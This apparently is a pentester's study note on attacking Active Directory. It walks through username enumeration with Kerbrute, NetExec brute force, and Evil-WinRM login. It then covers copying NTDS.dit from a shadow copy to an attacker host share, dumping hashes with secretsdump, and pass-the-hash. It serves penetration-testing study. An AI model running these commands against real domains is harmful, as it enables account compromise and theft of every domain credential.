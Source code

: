 - ==`Active Directory(AD)`== is a common and crucial directory server in modern enterprise network.
- `AD` is something that pentester will repeatedly encounter.
- There are various of method that can be used to attack and defend the `AD`.

#### Understanding the Active Directory:

- Once Windows System is joined to a domain, it will no longer default to referencing the SAM database to validate logon requests.
- That Domain-joined system will now send authentication requests to be validate by the domain controller before allowing a user to log on.
	- This does not means that SAM database can no longer be used.
	- The user still can logon to the system by specifying the hostname of the device proceeded by the Username==`(devive_name\user_name)`== or with direct access to the device then typing ==`.\`== at the logon UI in the `username` field.
## Dictionary attacks against AD accounts using NetExec:

- Dictionary attack is essentially using the power of a computer to guess a username  and/or password using a customized list of potential username and passwords.
- It can be rather ==`noisy`== to conduct these attacks over a network because they can generate a lot of network traffic and alerts on the target system as well as eventually get denied due to login attempts that can be applied through the use of [Group Policy](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/hh831791\(v=ws.11\))
	
	- ##### Creating a custom list of username:
		
		-  Custom list can be made by using names based on publicly available information.
		- Keep the list relatively short because organization can have a huge number of employees.
		- Can use a manually created list or use an ==`automated list generator`== such as:
			
			- ==`Username Anarchy`== which is Ruby-based tool. 
				- This can tool can be used to convert a list of real names into common formats.
				
				- ###### Installation:
					- `git clone https://github.com/urbanadventurer/username-anarchy.git`
				
				- ###### Command:
					- `./username-anarchy -i </path/to/username_file>`
	
	- ##### Enumerating valid username with Kerbrute:
		
		- Before guessing password for usernames which might not even exist, it may be worthful identifying the correct naming convention and confirming the validity of some usernames.
		- Tool like ==`Kerbrute`== can be used to brute-force, password spraying and username enumeration.
			- `Command to enumerate username`:
			
				- `./kerbrute_linux_amd64 userenum --dc <target> --domain <doamin_name> <path/to/user_name.txt>`
			
	- ##### Launching a brute-force attack with NetExec:
		
		- Once the list is prepared  or discover, then we can launch a brute-force attack against the target domain controller using a tool such as NetExec.
			- Command:
				- `netexec <protocol> <target_ip> -u <user_name> -p </path/to/passeord_list>`
				- If the admins configured an account lockout policy, this attack could lockout the account.
	
## Capturing NTDS.dit

- ==`NT Directory Services(NTDS)`== is the directory service used with AD to find & `organize network resources`.
- NTDS.dit file is stored at `%systemroot%/ntds` on the domain controllers in a forest. The `.dit` stands for `directory information tree` 
- This is the primary database file associated with AD and stores all domain usernames, password hashes and other critical schema information.
	- If this can be captured then it could potentially compromise every account.
	
	- ##### Connecting to a Domain Controller(DC) with Evil-WinRM: 
	
		- The attacker can connect to target DC using the credential:
			
			- ##### Command:
				- `evil-winrm -i <target> -u <user_name> -p <'pass_word'>`
				- Once connects to the user the privileges can be seen, then start looking at the local group.
				- ###### Command:
					- `net localgroup`
	
	- ##### Checking user account privileges including domain:
		
		- ###### Command:
			- `net user <user_name>`
		
	- ##### Creating shadow copy of C:
		
		-  Use ==`vssadmin`== tool to create a `volume shadow copy(VSS)` of the C: drive.
		- It is very likely that NTDS will be stored on C: as that is the default location selected at install
		
		- ###### Command:
			- `vssadmin CREATE SHADOW /For=C:`
		
	- ##### Copying NTDS.dit from the VSS:
		
		-  Copy the NTDS.dit file from the volume shadow copy of C: onto another location on the drive to prepare to move NTDS.dit to the host.
		- ```PS C:\NTDS> cmd.exe /c copy \\?<orginal_location_of_NTDS.dit> C:\to\path\NTDS.dit```
	
	- ##### Transferring NTDS.dit to attack host:
		
		-  `PS C:\NTDS> cmd.exe /c move C:\to\path\NTDS.dit \\<host_ip>\share_name` 
	
	- ##### Extracting hashes from NTDS.dit:
		
		- Use impacket-secretsdump tool to dump hashes of NTDS file.
			
			- ###### Command:
				- `impacket-secretsdump -ntds NTDS.dit -system SYSTEM LOCAL`
	
	- ##### A faster method: Using NetExec to capture NTDS.dit:
		
		- Use `netexec` tool to get the results faster, It allow to utilize VSS to quickly capture  and ump the contents of the NTDS.dit file congenitally within the terminal.
			
			- ##### Command:
				- `netexec smb <target> -u <user_name> -p <pass_word> -M ntdsutil`

- ## Pass the Hash(PtH) consideration:
	
	- Use hashes to attempt to authenticate with a system using a attack called ==`Pass-the-Hash`== 
	- A PtH attack takes advantage of the NTLM authentication protocol to authenticate a user using a password hash.
		- `username:password_hash`
	- ###### Command:
		- `evil-winrm -i <target> -u <user_name> -H <hash_value>`


[[Introduction to Password Attacks]]
